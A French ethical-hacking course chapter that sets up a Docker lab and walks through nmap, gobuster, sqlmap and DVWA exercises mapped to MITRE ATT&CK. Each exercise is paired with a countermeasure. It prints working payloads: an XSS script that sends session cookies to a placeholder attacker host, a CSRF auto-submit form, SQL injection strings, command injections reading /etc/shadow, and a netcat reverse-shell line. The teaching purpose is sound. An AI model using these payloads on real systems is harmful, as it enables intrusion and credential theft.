








# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Mettre en place l'environnement de lab (Docker, Kali, outils)
- Comprendre le référentiel MITRE ATT&CK et naviguer dans sa matrice
- Distinguer les profils d'attaquants
- Cartographier les attaques (phishing, DDoS, SQLi, XSS) aux techniques ATT&CK
- Prendre en main nmap, Metasploit, Wireshark
- Exploiter les 4 failles web sur DVWA : Reflected XSS, Stored XSS, CSRF, SQLi, Command Injection

---

# Partie 1 — Mise en place de l'environnement (1h30)

## A.1 Vérification des outils Kali

```bash
# Vérification des versions installées des outils essentiels du pentest
# which = localise le chemin d'un exécutable dans le PATH (permet de vérifier qu'un outil est bien installé)
python3 --version     # → Python 3.10+  (interpréteur requis par sqlmap, scripts d'exploit)
docker --version      # → Docker 24+  (moteur de conteneurisation pour les cibles du lab)
nmap --version        # → Nmap 7.94  (scanner réseau standard)
msfconsole --version  # → Metasploit 6.3  (framework d'exploitation)
sqlmap --version      # → sqlmap 1.7  (outil automatisé d'injection SQL)
which nc              # → /usr/bin/nc  (netcat : connexions TCP/UDP, reverse shells)
```

Si un outil manque :
```bash
# sudo = exécute la commande suivante avec les privilèges root (super-utilisateur)
# apt update = rafraîchit la liste des paquets disponibles ; apt install -y = installe les paquets sans demande de confirmation
sudo apt update && sudo apt install -y docker.io docker-compose-v2 git nmap metasploit-framework sqlmap netcat-openbsd curl
# usermod -aG = modifie le compte utilisateur pour l'ajouter (-a) au groupe (-G) docker
# Permet d'utiliser docker sans taper sudo à chaque commande
sudo usermod -aG docker $USER  # -aG = append to Group (préserve les groupes existants)
# Important : fermer ET rouvrir la session (logout/login) pour que le groupe soit pris en compte
# Un simple "su - $USER" ou une nouvelle fenêtre de terminal suffit, pas besoin de rebooter
```

## A.2 Arborescence de travail

```bash
# git clone = télécharge une copie complète du dépôt Git distant dans le dossier courant
git clone https://github.com/yugmerabtene/techniques-de-hacking-niveau-1.git
cd techniques-de-hacking-niveau-1
```

Une fois le dépôt cloné, voici l'arborescence **réelle** :

```text
techniques-de-hacking-niveau-1/      # Dépôt du cours (RACINE)
├── labs_resolution/                 # 🔥 Labs RÉSOLUS (correction, référence)
│   ├── jour-01/                     #   Scripts XSS, SQLi, CMDi, hash cracking
│   ├── jour-02/                     #   Recon nmap, exploits vsftpd/Samba, MITM (incl. recon/)
│   ├── jour-03/                     #   BOF pwntools, WAF bypass, Trojan
│   ├── jour-04/                     #   Hardening + ELK SOC
│   └── jour-05/                     #   Forensique + generate_report.py
├── rendu_labs/                      # 📁 Votre dossier de rendu (à créer / compléter)
│   ├── jour-01/                     #   → Déposez vos travaux J1 ici
│   ├── jour-02/                     #   → Déposez vos travaux J2 ici
│   ├── jour-03/                     #   → Déposez vos travaux J3 ici
│   ├── jour-04/                     #   → Déposez vos travaux J4 ici
│   └── jour-05/                     #   → Déposez vos travaux J5 ici
├── env.sh                           # Variables centralisées (sourcer avant chaque lab)
├── docker-compose.yml               # 7 conteneurs cibles
├── docker/                          # Dockerfiles (buffovf, forensic, sqli-app, waf, secure-linux)
├── img/                             # Schémas et figures
├── JOUR-01*.md → JOUR-05*.md       # Supports de cours
├── PLAN_SCHEMAS.md
├── README.md
└── extra/                           # Projets complémentaires
    ├── HORS-SERIE-AGENTIC.md
    └── hors-serie/                  # Dockerfile + code source KillChainAgent
```



**Fig 1b** — Workflow type d'un lab : cloner, sourcer, lancer le conteneur, travailler dans `rendu_labs/`, consulter `labs_resolution/` en cas de blocage.

## A.3 Lancement des conteneurs

```bash
# docker compose up = démarre tous les services définis dans docker-compose.yml
# -d (detached) = arrière-plan, --build = reconstruit les images Docker avant de lancer
# Sans argument : tous les conteneurs ; avec un nom : un seul service (ex: dvwa)
docker compose up -d --build
```



**Fig 1** — Topologie du lab : 7 conteneurs cibles exposés sur ports dédiés, orchestrés par Kali Linux hôte.

## A.4 Validation de chaque vulnérabilité

```bash
# DVWA — Vérification que l'application web répond sur le port 8088 (-I = requête HEAD, ne télécharge que les en-têtes)
curl -I http://localhost:8088/login.php
# → HTTP/1.1 200 OK
# Login : admin / password → DVWA Security → low

# SQLi App — Test de la page de recherche avec injection basique sur le paramètre id
curl "http://localhost:8083/?page=search&id=1"
# → Laptop Pro X  (le produit avec id=1 s'affiche, l'appli est accessible)
# Bypass d'authentification : injection SQL commentée (--), -s = mode silencieux (pas de barre de progression)
# grep = filtre les lignes contenant un motif ; -o = affiche uniquement la correspondance (pas la ligne entière)
# | (pipe) = redirige la sortie de la commande gauche vers l'entrée de la commande droite
curl -s -d "page=login&username=admin'%20--&password=x" "http://localhost:8083/" | grep -o "Connecté"
# → Connecté en tant que admin  (le commentaire -- neutralise le check du password)

# vsftpd 2.3.4 — Bannière FTP attendue sur le port 21 (-w2 = timeout de 2 secondes)
# echo = affiche du texte dans la sortie standard ; le pipe | envoie cette sortie vers l'entrée standard (stdin) de nc
# nc (netcat) = couteau suisse réseau : connexions TCP/UDP, transfert de données, écoute de ports
echo "" | nc -w2 localhost 21
# → 220 (vsFTPd 2.3.4)  (version connue vulnérable, exploitable via Metasploit)

# Samba — Scan nmap de détection de version (-sV) sur le port 445 uniquement (-p)
nmap -sV -p 445 localhost | grep 445
# → 445/tcp open netbios-ssn Samba smbd 3.0.20  (version ancienne vulnérable)

# Buffer overflow — Vérification que le port 9001 est ouvert (-z = scan sans envoyer de données)
nc -z localhost 9001 && echo "OK"

# WAF — Requête normale : code HTTP attendu → 200 (-o /dev/null = jette le corps, -w formate la sortie)
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200  (page accessible normalement)
# Requête avec injection SQL : le WAF (ModSecurity) doit bloquer → 403 Forbidden
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1 OR 1=1"
# → 403 (WAF bloque)  (ModSecurity détecte et rejette la tentative d'injection SQL)

# Secure Linux — Test de connectivité SSH sur le port 2224
nc -z localhost 2224 && echo "SSH OK"

# Forensic victim — Exécution de commande via le paramètre cmd (command injection volontaire pour les exercices forensic)
curl "http://localhost:8082/?cmd=id"
# → uid=33(www-data)  (l'utilisateur serveur web est bien www-data, injection confirmée)

# Validation automatique
cd .
```

---

# Partie 2 — Introduction au hacking éthique (4h30)

---

## Introduction

Toute démarche de sécurité commence par la compréhension du paysage des menaces. Avant de lancer un scan ou d'exploiter une faille, il faut un **langage commun** pour décrire les comportements adverses. Ce langage, c'est **MITRE ATT&CK** — le standard adopté par les SOC, les CERT et les pentesters.

Ce chapitre couvre la matrice ATT&CK (14 tactiques, 200+ techniques), le mapping des attaques classiques vers leurs IDs, et l'exploitation des 4 vulnérabilités web les plus répandues.

> **Sources :** [MITRE ATT&CK Framework](https://attack.mitre.org/)

---

## 1. MITRE ATT&CK — La matrice des TTPs

**Tactique** = l'objectif (pourquoi). **Technique** = la méthode (comment). **Procédure** = l'implémentation spécifique d'un groupe.


**Fig 2** — Chaîne complète MITRE ATT&CK v15 : 14 tactiques de la Reconnaissance à l'Impact.

### Correspondance attaques → techniques ATT&CK


**Fig 3** — Mapping des attaques classiques (Phishing, DDoS, SQLi, XSS, CSRF) vers leurs techniques et tactiques MITRE ATT&CK.

### Correspondance CVE → ATT&CK

Les **CVE** (Common Vulnerabilities and Exposures) identifient une vulnérabilité spécifique dans un logiciel. Les **techniques ATT&CK** décrivent la méthode utilisée pour l'exploiter. Les deux sont complémentaires :

| CVE | Vulnérabilité | Technique ATT&CK | Lab |
|-----|---------------|------------------|-----|
| CVE-2011-2523 | vsftpd 2.3.4 — backdoor (supply chain) | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App | J2 Lab 2.2 |
| CVE-2007-2447 | Samba 3.0.20 — command injection (usermap) | [T1210](https://attack.mitre.org/techniques/T1210/) Exploit Remote Services | J2 Lab 2.3 |
| CVE-2017-0144 | EternalBlue — buffer overflow SMB | [T1210](https://attack.mitre.org/techniques/T1210/) Exploit Remote Services | J1 Exercice 2 |
| *(aucune)* | XSS, SQLi, CSRF, CMDi (vulnérabilités génériques) | [T1189](https://attack.mitre.org/techniques/T1189/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1203](https://attack.mitre.org/techniques/T1203/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | J1 Labs 1.2-1.5 |

> **Note :** Les failles web (XSS, SQLi) n'ont pas de CVE unique car elles dépendent de l'implémentation. En revanche, les vulnérabilités logicielles (vsftpd, Samba) ont une CVE bien spécifique qui permet de les tracer et de les corriger via un système de patch management (M1051).

---

## 2. Profils d'attaquants



**Fig 4** — Taxonomie des profils d'attaquants : White Hat, Black Hat, Grey Hat, Hacktiviste, APT.

---

## 3. Outils fondamentaux

### nmap → [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
# nmap -sV : détection de version des services (-sV = probe les bannières pour identifier version précise)
nmap -sV <IP>              # Scan avec version
# nmap -A : mode agressif = OS fingerprint (-O) + scripts (-sC) + versions (-sV) + traceroute
nmap -A <IP>               # OS + scripts + versions
# nmap --script vuln : exécute les scripts NSE de la catégorie vuln (détection CVE connues)
nmap --script vuln <IP>    # Vulnérabilités connues
```

### Metasploit → [TA0001](https://attack.mitre.org/tactics/TA0001/)-TA0006

```bash
# Lancement de la console interactive Metasploit (framework d'exploitation modulaire)
msfconsole
# Recherche d'un exploit par mot-clé (ex: vsftpd, samba, eternalblue)
search <exploit>
# Sélection du module d'exploit à utiliser (chemin complet dans l'arborescence Metasploit)
use <chemin>
# Définit l'adresse IP de la cible distante (RHOSTS = Remote HoSTS)
set RHOSTS <IP>
# Lance l'exploit configuré contre la cible
exploit
```

### Wireshark → [T1040](https://attack.mitre.org/techniques/T1040/) Network Sniffing

Filtres : `http`, `tcp.port == 80`, `ip.addr == <IP>`

---

## 4. Les 4 vulnérabilités web fondamentales

### XSS → [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise

**Contexte métier :** 65% des applications web ont eu au moins une XSS. Un attaquant vole le cookie de session d'un administrateur → accès complet au back-office.

**Fonctionnement :** L'application prend une entrée utilisateur (formulaire, URL) et l'affiche sans échapper les caractères HTML. Le navigateur interprète `<script>` comme du code exécutable.



**Fig 5** — Flux d'attaque XSS réfléchie : injection de script dans la page, exécution côté victime, exfiltration du cookie de session.

```html
<script>alert('XSS')</script>
<script>new Image().src='http://<KALI_IP>:8000/?c='+document.cookie</script>
```

### CSRF → [T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution

**Contexte métier :** L'attaquant force un utilisateur authentifié à exécuter une action (virement, changement de mot de passe) sans son consentement, simplement en visitant une page piégée.

```html
<form action="http://<CIBLE>/change_password.php" method="POST">
  <input name="new_password" value="hacked">
</form>
<script>document.forms[0].submit();</script>
```

### SQL Injection → [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

**Contexte métier :** Première cause de breach de données selon l'OWASP. Un attaquant extrait la base clients complète, la revend sur le dark web. Coût moyen : 4.5M$.

**Fonctionnement :** La requête SQL construite par concaténation de chaînes inclut l'entrée utilisateur. `SELECT * FROM users WHERE id='1' OR '1'='1'` retourne tout car `'1'='1'` est toujours vrai.

```sql
admin' OR '1'='1' --
' UNION SELECT username, password FROM users --
```



**Fig 5b** — Injection SQL de type UNION : l'attaquant concatène une seconde requête `SELECT` via `UNION` pour extraire la table `users` (identifiants) en plus des résultats normaux.

### Command Injection → [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell

**Contexte métier :** 30% des applications qui exécutent des commandes système sont vulnérables. Un `ping` mal sécurisé donne un shell complet sur le serveur.

**Fonctionnement :** `system("ping " + $input)` exécute `ping 127.0.0.1; ls /etc/`. Le `;` termine la première commande et en lance une seconde.

```bash
# Commande séparateur ; exécute ls après le ping (le point-virgule termine la 1ère commande et en lance une 2ème)
; ls /etc/passwd
# Pipe | redirige la sortie du ping vers whoami (qui ignore l'entrée mais s'exécute quand même)
| whoami
# Opérateur && exécute cat seulement si le ping réussit (code retour 0)
&& cat /etc/shadow
```



**Fig 5c** — Chaîne d'attaque Command Injection vers reverse shell : l'injection de `; nc -e /bin/sh <KALI> 4444` transforme un `ping` non sécurisé en shell distant exploitable.

---

## Lab 1.1 — Scan et découverte de DVWA

### Fiche

| Durée | Conteneur | Dossier | Outils |
|---|---|---|---|
| 30 min | dvwa (port 8088) | `rendu_labs/jour-01/` | nmap, gobuster, curl |

### Contexte métier

Avant tout pentest, on scanne la cible pour cartographier sa surface d'attaque. Un scan nmap + une énumération web (gobuster) sont systématiquement demandés par le client dans le rapport.

### Étape 1 — Scan nmap

```bash
mkdir -p rendu_labs/jour-01 && cd rendu_labs/jour-01
# 📌 Scan nmap du port DVWA : détection de version du service web
# 🔍 -sV = probe les bannières pour identifier la version précise du service
# 🔍 -p 8088 = port cible, tee = affiche la sortie ET la sauvegarde dans un fichier
nmap -sV -p 8088 localhost | tee nmap_dvwa.txt
# → PORT 8088/tcp open http Apache httpd 2.4.X  (service web Apache confirmé)
```

### Étape 2 — Énumération gobuster

```bash
cd rendu_labs/jour-01
# 📌 Énumération des répertoires web cachés avec gobuster
# 🔍 dir = mode scan de répertoires, -u = URL cible, -w = wordlist de noms communs
# 🔍 -q = mode silencieux (masque la bannière), | tee = affiche + sauvegarde
gobuster dir -u http://localhost:8088 \
  -w /usr/share/wordlists/dirb/common.txt -q | tee gobuster_dvwa.txt
# → /login.php (200)        page de connexion accessible
# → /vulnerabilities (301)  répertoire des pages vulnérables
# → /config (301)           répertoire de configuration (potentiellement sensible)
```

### Étape 3 — Connexion DVWA

```bash
# 📌 Connexion à DVWA via le formulaire d'authentification admin/password
# 🔍 -s = silencieux (pas de barre de progression), -c = sauvegarde le cookie dans un fichier
# 🔍 -d = données POST (username=admin&password=password&Login=Login)
# 🔍 grep -o extrait "Welcome" (succès) ou "Login failed" (échec) pour validation
curl -s -c /tmp/dvwa_cookie.txt \
  -d "username=admin&password=password&Login=Login" \
  "http://localhost:8088/login.php" | grep -o "Welcome\|Login failed"
# → Welcome  (authentification réussie, cookie stocké dans /tmp/dvwa_cookie.txt)

# 📌 Définir le niveau de sécurité sur "low" (obligatoire pour les labs)
# Firefox : http://localhost:8088 → DVWA Security → low
# Alternative sans navigateur :
# 🔍 -b = envoie le cookie d'auth, -c = met à jour le fichier avec le nouveau cookie security=low
curl -s -b /tmp/dvwa_cookie.txt -c /tmp/dvwa_cookie.txt \
  -d "security=low&seclev_submit=Submit" \
  "http://localhost:8088/security.php"
# Le cookie jar contient maintenant PHPSESSID + security=low
# Plus besoin d'ouvrir Firefox pour les labs suivants
```

### Checkpoints
- [ ] nmap : port 8088 ouvert, Apache
- [ ] gobuster : /login.php, /vulnerabilities trouvés
- [ ] Connexion DVWA réussie

### 🔒 Contre-mesure (M1031 Network Intrusion Prevention + M1037 Firewall)

La reconnaissance ennemie se contrecarre en **réduisant la surface d'attaque** :

| Mitigation | Action concrète |
|---|---|
| **M1037** Firewall | UFW pour limiter les ports exposés au strict nécessaire (`ufw default deny incoming`) |
| **M1042** Disable Service | Désactiver le directory listing Apache (`Options -Indexes`) |
| **M1031** IDS/IPS | Snort/Suricata pour détecter les patterns de scan nmap et gobuster |

```bash
# Désactiver le directory listing sur Apache DVWA (empêche gobuster d'énumérer les dossiers)
# docker exec = exécute une commande à l'intérieur d'un conteneur déjà en cours d'exécution
# bash -c '...' = lance un nouveau shell bash et exécute la chaîne de commandes entre guillemets
# apache2ctl restart = redémarre le serveur web Apache (pour appliquer les changements de configuration)
docker exec dvwa-target bash -c "echo 'ServerName localhost' >> /etc/apache2/apache2.conf && echo 'Options -Indexes' >> /etc/apache2/conf-enabled/security.conf && apache2ctl restart"
# Vérification : créer un dossier test sans index puis vérifier le 403
docker exec dvwa-target bash -c "mkdir -p /var/www/html/test-empty"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8088/test-empty/"
# → 403  (le directory listing est désactivé, accès refusé)
# Nettoyage
docker exec dvwa-target bash -c "rm -rf /var/www/html/test-empty"
```

> **📌 Ce qu'on a retenu :** On a cartographié DVWA avec nmap (ports ouverts, OS, services) et gobuster (répertoires cachés). Un attaquant fait ça en 2 minutes pour trouver ses points d'entrée ([TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance).  
> **Attendu :** Liste des ports (80, 8088, 3306…) + répertoires découverts (`/config/`, `/setup/`…).  
> **Défense :** Pare-feu (UFW), désactiver le directory listing (`Options -Indexes`), détecter les scans avec un IDS (Snort/Suricata).

---

## Lab 1.2 — Exploitation XSS

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise |

### Contexte technique

Reflected XSS injecte du code dans l'URL, exécuté immédiatement. Stored XSS persiste en base de données. Dans un vrai pentest, on montre les deux car l'impact diffère : Reflected cible un utilisateur, Stored toutes les visites.

### Étape 1 — Reflected XSS

Dans DVWA → **XSS (Reflected)** → champ "What's your name?" :

```html
<script>alert('XSS fonctionnel')</script>
```
→ Popup JavaScript. La faille est confirmée.

### Étape 2 — Vol de cookie

**Terminal 1** — écouteur HTTP :
```bash
cd rendu_labs/jour-01
# Lancement d'un serveur HTTP minimal sur le port 8000 (-m http.server) pour recevoir les cookies exfiltrés via XSS
# Lancement d'un serveur HTTP minimal sur le port 8000 : -m = exécute le module Python http.server intégré
# 8000 = port d'écoute arbitraire ; le serveur affiche chaque requête entrante (URL, IP source, User-Agent)
python3 -m http.server 8000  # Écoute sur toutes les interfaces, affiche chaque requête entrante (GET /?cookie=...)
```

**Terminal 2** — payload dans DVWA (remplacer l'IP par `hostname -I`) :
```html
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

L'écouteur reçoit : `GET /?cookie=PHPSESSID=abc123...` → cookie volé.

Retournez dans le **Terminal 1** (écouteur HTTP) pour confirmer.

### Étape 3 — Stored XSS

DVWA → **XSS (Stored)** :
```html
Name: Attaquant
Message: <script>alert('Stored XSS')</script>
```
→ Popup à chaque rafraîchissement. Stocké en base.

### 🔒 Contre-mesure (M1013 Application Hardening + M1054 Secure Coding)

| Attaque | Défense | Code de correction |
|---|---|---|
| Reflected/Stored XSS | **`htmlspecialchars()`** | `htmlspecialchars($input, ENT_QUOTES, 'UTF-8')` neutralise `<`, `>`, `"`, `'` |
| Cookie theft | **Cookie `HttpOnly`** | `session.cookie_httponly = 1` — le cookie n'est plus accessible via `document.cookie` |
| Inline scripts | **CSP Header** | `Content-Security-Policy: script-src 'self'` — bloque tout `<script>` injecté |

```bash
# Activer HttpOnly sur les cookies de session PHP dans DVWA
docker exec dvwa-target bash -c "
  echo 'session.cookie_httponly = 1' >> /etc/php/*/apache2/php.ini
  apache2ctl restart
"
# Vérification : le fichier php.ini contient bien la directive HttpOnly
docker exec dvwa-target bash -c "grep 'session.cookie_httponly' /etc/php/*/apache2/php.ini"
# → session.cookie_httponly = 1  (confirmé)

# Re-tester le vol de cookie via XSS : le payload <script>new Image().src=... ne peut plus lire document.cookie
curl -s -b /tmp/dvwa_cookie.txt \
  "http://localhost:8088/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C%2Fscript%3E" 2>/dev/null \
  | grep -o "&lt;script&gt;\|alert"
# → &lt;script&gt;   (grep -o affiche chaque match sur une ligne séparée)
# → alert         (le HTML est échappé, pas exécuté par le navigateur)
```

> **Checkpoint défensif :** `htmlspecialchars()` + `HttpOnly` neutralisent l'XSS : plus de popup, cookie inaccessible.

> **📌 Ce qu'on a retenu :** On a injecté du JavaScript dans une page vulnérable (Reflected XSS + Stored XSS) et volé le cookie de session. L'XSS est la 2e vulnérabilité web la plus courante ([T1189](https://attack.mitre.org/techniques/T1189/)).  
> **Attendu :** Popup `alert(1)` + cookie volé via `document.cookie`.  
> **Défense :** `htmlspecialchars()` pour échapper les entrées, `HttpOnly` sur les cookies pour les rendre inaccessibles au JS.

---

## Lab 1.3 — Injection SQL avec sqlmap

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App |

### Contexte technique

La requête `SELECT first_name, last_name FROM users WHERE user_id = '$id'` devient `WHERE user_id = '1' OR '1'='1' #'` → retourne tous les utilisateurs. sqlmap automatise l'extraction complète.

### Étape 1 — Test manuel

**Important :** utilisez le cookie jar sauvegardé précédemment dans `/tmp/dvwa_cookie.txt`. Il contient déjà votre PHPSESSID et le niveau `security=low` (définis au Lab 1.1).

```bash
# Test manuel d'injection SQL : -b lit le cookie depuis le fichier jar (PHPSESSID + security=low inclus)
# L'URL contient ' OR '1'='1' # encodé en URL (%27 = ', %20 = espace, %3D = =, %23 = #)
# grep -c compte les occurrences de "First name" → doit retourner 5 (tous les users) au lieu de 1
curl -s -b /tmp/dvwa_cookie.txt \
  "http://localhost:8088/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27+%23&Submit=Submit" \
  | grep -c "First name"
# → 5 (5 utilisateurs affichés au lieu d'1)  (injection SQL confirmée : tous les enregistrements sont retournés)
```

### Étape 2 — sqlmap : dumper les utilisateurs

```bash
cd rendu_labs/jour-01

# sqlmap : --load-cookies = charge les cookies depuis le fichier jar au format Netscape (PHPSESSID + security=low)
# -u = URL cible, -D = base de données cible (dvwa), -T users = table cible
# -C user,password = colonnes à extraire, --dump = affiche le contenu, --batch = mode non-interactif
sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --load-cookies=/tmp/dvwa_cookie.txt \
  -D dvwa -T users -C user,password --dump --batch
```
Sortie attendue :

```console
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```

### Checkpoints
- [ ] SQLi manuelle : 5 utilisateurs affichés
- [ ] sqlmap : 5 utilisateurs extraits avec hashs MD5

### 🔒 Contre-mesure (M1013 Application Hardening + M1041 WAF)

L'injection SQL se corrige en **ne concaténant jamais l'entrée utilisateur dans une requête** :

| Vulnérabilité | Correction | Exemple |
|---|---|---|
| `WHERE id = '$id'` | **Requêtes préparées PDO** | `$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?"); $stmt->execute([$id]);` |
